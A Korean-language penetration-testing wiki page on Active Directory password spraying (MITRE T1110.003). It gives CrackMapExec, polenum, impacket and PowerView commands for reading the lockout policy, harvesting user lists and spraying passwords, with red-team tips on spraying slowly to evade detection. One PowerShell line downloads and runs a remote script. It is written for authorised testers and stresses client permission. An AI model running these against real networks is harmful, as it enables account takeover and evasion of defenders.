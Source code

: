 ```yaml
---
description: MITRE ATTACK - T1110.003
---
```


# 비밀번호 스프레이 공격

비밀번호 스프레이 공격은 다수의 유저 계정을 상대로 하나의 비밀번호를 대입해 공격하는 방식이다.

내부망에 진입 후 도메인 유저 계정을 장악했다면 블러드하운드나 내부망 정보 수집을 통해 도메인 유저 명단을 획득할 수 있다. 이 명단을 상대로 비밀번호 스프레이 공격을 시도해볼 수 있다.

모의해커나 레드팀의 경우 다음과 같은 주의사항을 꼭 명심해야한다.

**모의해커**

* 액티브 디렉토리 비밀번호 정책 확인
* 대량의 유저를 상대로 할 경우 고객사 연락책 및 블루팀에게 사전 고지
* 일괄적으로 스프레이를 하기 보단 특정 숫자로 나눠 공격

**레드팀**

* 액티브 디렉토리 비밀번호 정책 확인
* 스프레이 속도 조절. 속도 조절 실패시 블루팀에게 발각될 확률이 매우 높아짐
* 하나의 호스트에서 스프레이를 진행하기 보단 여러대 호스트에서 긴 시간 동안 느린 속도로 천천히 스프레이 공격을 실행

모의해커나 레드팀이나 중요한 것은 바로 "액티브 디렉토리 비밀번호 정책 확인"이다. 고객사 3만명의 직원들의 액티브 디렉토리 유저 계정을 모두 잠금한 뒤 화요일 새벽 고객사 연락책에게서 살벌한 전화를 받기 싫다면 말이다.

### AD 비밀번호 정책 확인

액티브 디렉토리 비밀번호 정책을 확인하려면 도메인 유저 권한을 갖고 있어야한다. 도메인 컨트롤러를 대상으로 비밀번호 정책을 알아낸다. 계정 잠금 임계점, 임계점 리셋 시간, 계정 잠금 시간 등에 특히 유의한다.

{% tabs %}
{% tab title="리눅스" %}
```
# Crackmapexec 
cme smb <ip/FQDN> -u <user> -p <pass> -d <domain> --pass-pol Pdd

# polenum
polenum '<user>:<pass>'@<ip> --domain choi.local
```
{% endtab %}

{% tab title="윈도우" %}
Powerview 혹은 SharpView 등의 툴을 이용하거나 호스트에 기본 AD 파워쉘 모듈이 있다면 그것을 이용한다.

```
# Powerview 
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1')
(Get-DomainPolicy).SystemAccess

# 기본 AD 파워쉘 모듈 
Get-ADDefaultDomainPasswordPolicy
```
{% endtab %}
{% endtabs %}

### 유저 명단 확보

유저 명단은 어떠한 툴을 이용하던 LDAP을 통해 알아낼 수 있다. 자주 쓰이는 툴들은 블러드하운드, Powerview 등이 있다.

{% tabs %}
{% tab title="리눅스" %}
```
# 블러드하운드 데이터를 이용
jq -r '.data[].Properties.name' 20220614000557_users.json

# impacket GetADUsers
impacket-GetADUsers <domain>/'<user>:<pass>' -all -dc-ip <ip>
impacket-GetADUsers choi.local/'low:Password123!' -all -dc-ip 192.168.40.150
impacket-GetADUsers choi.local/'low:Password123!' -all -dc-ip 192.168.40.150 | grep -i 2022 | cut -d ' ' -f 1 | sort -fuV  > users.txt
```
{% endtab %}

{% tab title="윈도우" %}
```
# Powerview 
(Get-DomainUser).name
```
{% endtab %}
{% endtabs %}

### 스프레이 공격

도메인 비밀번호 정책, 계정 잠금 임계점, 계정 잠금 시간등을 확인한 뒤 스프레이 공격을 실행한다. 예를 들어 임계점이 5번이고 임계점 리셋 시간이 2시간이라면 2시간 마다 1\~2개의 비밀번호를 스프레이한다. 그 이유는 실제로 직원들이 자신의 계정을 이용하다 비밀번호를 잘못 입력할수도 있고, 다른 변수들도 존재하기 때문이다.

도메인 비밀번호 정책을 모르며 10,000명 이상의 큰 네트워크를 상대로 스프레이 공격을 진행한다면 8시간 마다 1개의 비밀번호를 시도하는 것을 추천한다. 다만, 실행하기 전 고객사에게 연락해 사전 허락을 맡는다.

{% tabs %}
{% tab title="리눅스" %}
```
# CrackMapExec
cme smb <ip/FQDN> -u <유저-파일> -p <pass> -d <domain> --no-bruteforce --continue-on-success
cme smb 192.168.40.150 -u users.txt -p 'Password123!' -d <domain> --no-bruteforce --continue-on-success
```
{% endtab %}
{% endtabs %}

### 레퍼런스

{% embed url="https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing" %}

{% embed url="https://www.eshlomo.us/active-directory-password-spray-attack/" %}
